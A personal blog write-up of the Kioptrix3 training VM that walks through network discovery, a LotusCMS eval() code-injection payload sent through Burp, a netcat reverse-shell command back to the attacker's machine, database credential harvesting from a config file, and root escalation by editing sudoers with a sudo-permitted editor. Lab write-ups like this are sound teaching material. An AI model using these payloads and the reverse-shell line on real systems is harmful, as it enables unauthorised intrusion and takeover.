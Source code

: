 ```yaml
---
layout: post
title: "Kioptrix3 Writeup"
date : 2022-11-22
image: ../../assets/img/Posts/Kioptrix3.png
categories : [Writeups]
tags : [web,linux,]
---
```

`raw copy`
### Introduction
Kioptrix3 is a vulnerable linux  box .It is third in the Kioptrix Series but was my firt to attempt.The box tests several areas such as web and linux priviledge escaltion.You can download the box [here.](http://www.kioptrix.com/dlvm/KVM3.rar)

### Enumeration
To start of , we need to discover the machine from our network ,i will be using `netdiscover -i eth1 `.
![netdiscover](/assets/img/Posts/kioptrix3netdiscover%20scan.png) Since i know the first two machines our kioptrix machine is the third one.

Next on will be to discover the open ports using `nmap`.
![nmap](/assets/img/Posts/kioptrix3nmapscan.png) From our scan results , we can see port 22,80 are open and thus port 80 is our **most likely** way in.
![port 80](/assets/img/Posts/kioptrix3websnap.png) 
The kioptrix3 machine is using dhcp and thus directs us to include its ip on our attackers box.With sudo power open the hosts file on `/etc/hosts` then include the machines ip and the name as `kioptrix3.com`
Now that we have our target site, we look for anything that can aid in compromising the site.From an overview of the site, we can deduce that there is a content management system `Lotuscms`.We can also learn that there should be a database since the picture in the gallery blog have upload dates.
Since i know nothing about this cms ,we'll have to look on how to find its version as wappalyzer doesn't seem to know too.
On searching for how to find the version,we find more intresting info from what we were looking for.The cms developers seem to have discontunued the project .It was in its third version which is said to have a remote code vulnerability from the way it handles the `eval()` function.
### The eval () function
You can learn more about the eval function [here](https://www.php.net/manual/en/function.eval.php)
### Exploit
The login page has a url `kioptrix3.com/index.php?system=Admin`.When we alter the last part of the url with a random string we get an error message indicating the use of the eval function.Once we test with `/index.php?page=index` we get directed to the landing page meaning the inputs are valid.
To exploit the RCE , we will send a request `kioptrix3.com/index.php?page=index` and capture it with BurpSuite(*you can use other proxies). 
![burp request](/assets/img/Posts/kioptrx3burp1.png).Before we foward the request we need to change the request from `GET` to `POST` .
![burp post request](../assets/img/Posts/kioptr3burp2.png)
At this point you can send the request to the repeater to modify the data .To test if the site will execute our code we sent `page=index');${system(ls)};#` in our request.
From the response we are able to see contents of a directory listing which confirms that the site is vulnerable.
![system ls call](/assets/img/Posts/kioptrix3burp3.png)

## Getting the Reverse shell
On our attack machine we set up the listener on port 4444:`nc -lvp 4444`. Back to  Burp,we edit the contents of the page request to establish a reverse connestion to our kali machine :`page=index');${system("nc -e /bin/bash 192.168.56.103 4444")};#`
After getting our reverse connection , we can use `python -c 'import pty; pty.spawn("/bin/bash")'` to get an interactive shell.
![reverse shell](/assets/img/Posts/kioptrix3revshell.png)
We can try to elevate our priviledges as we have gained our intial foothold.

## Escalating to root
In linux systems , one can gained root priveledges in a number of ways.Attackers may use SUID binaries,CronJobs,edit sudoers file and in some cases one might be lucky enough to find editable Shadow file.
Priviledge escalation might be vertical or horizontal. In that one might escalate straight to root or compromise another user in the system then escalate to root.
For this particular task I opted for the latter.
My hunt for other users started at the `/home` directory. In this directory we can deduce that the system has three users currently.
![Users](/assets/img/Posts/kioptr3homedir.png) 
After wondering around the directories of the two users, I found some intresting file under the name `CompanyPolicy.README` which instructs new employees to use the command `sudo ht` when editing , creating or viewing files.A quick Google search on what the command might be indicates that `ht` is a file editor. You can learn more about ht [here](hte.sourceforge.net/readme.html)
Now that we have what seems like a piece of the puzzle , we need to look for other pieces.
Since the machine is hosting the site , we can try to look for config files and see if we are lucky enough to find password or such. 
`find / -name '*.php' | grep config`
![config files](/assets/img/Posts/kioptrix3configfiles.png)
On the kioptrix site we had a gallery page and looking at the config files we found there is a gallery config file.
The file contains some credentials which seem to be of the root user in phpmyadmin.*forgot to say the PhpmyAdmin page for this page is listable 🙃*
![phpmyadmin credential](/assets/img/Posts/kioptrix3phpmyadmin.png)
Using the credentials we find we are able to access the gallery database where we find hashes of two developer accounts.
![hashes](/assets/img/Posts/kioptrix3hashes.png)
Using a decryptor we can get the password of both users and switch to the one we shall prefer.
I will be using `loneferret` because the other piece of the puzzle was under their account.
Using the editor we found out earlier we are able to access and edit the `shadow` and `sudoers` files.Through the `sudoers` file we can give anyone `sudo` permission.Some may prefer decrypting the hashes in the shadow file but i  choose editng the sudoers file.*it is faster 😀*
![sudoers edit](/assets/img/Posts/kioptri3sudoers.png)
Now that we have sudo powers ,lets change the user to root.
![root snap](/assets/img/Posts/kioptrix3rootsnap.png)
From the root directory we have the flag for this challenge.You can find the it under the `Congrats.txt` file .
![congrats](/assets/img/Posts/kioptrix3congrats.png)
### Conclusion
The method used above was just one among many that can be used to compromis this said box.You can try out other methods for the initial access and the priviledge escalation too. As they say: "Google is your friend".If you get stuck try to search.

*Any comments and compliments about this piece are welcome*